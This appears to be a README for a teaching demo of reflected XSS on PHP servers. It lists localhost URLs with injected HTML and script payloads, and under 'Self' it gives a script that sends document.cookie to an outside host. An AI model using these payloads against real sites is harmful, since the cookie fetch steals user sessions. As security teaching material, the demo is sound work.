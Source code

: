 # Reflections

Demos for reflection-based XSS in PHP-based servers

Normal:
http://localhost:8100/?web=world!

Maybe:
http://localhost:8100/?web=%3Cb%3Eworld!%3C/b%3E

Even better:
http://localhost:8100/?web=%3Cp%3E%3Cimg%20width=%22500%22%20src=%22https://media1.tenor.com/images/09d57d510daf46cd78c5e4b712373849/tenor.gif?itemid=16270886%22%3E%3C/img%3E%3C/p%3E

Malicious:
http://localhost:8100/?web=world%3Cscript%3Ealert(1)%3C/script%3E

# Stored/Cross

<img width="500" src="https://media1.tenor.com/images/09d57d510daf46cd78c5e4b712373849/tenor.gif?itemid=16270886"></img>

# Self


```html
<script>fetch(`https://ocs.kekvrose.me/${document.cookie}`)</script>
```
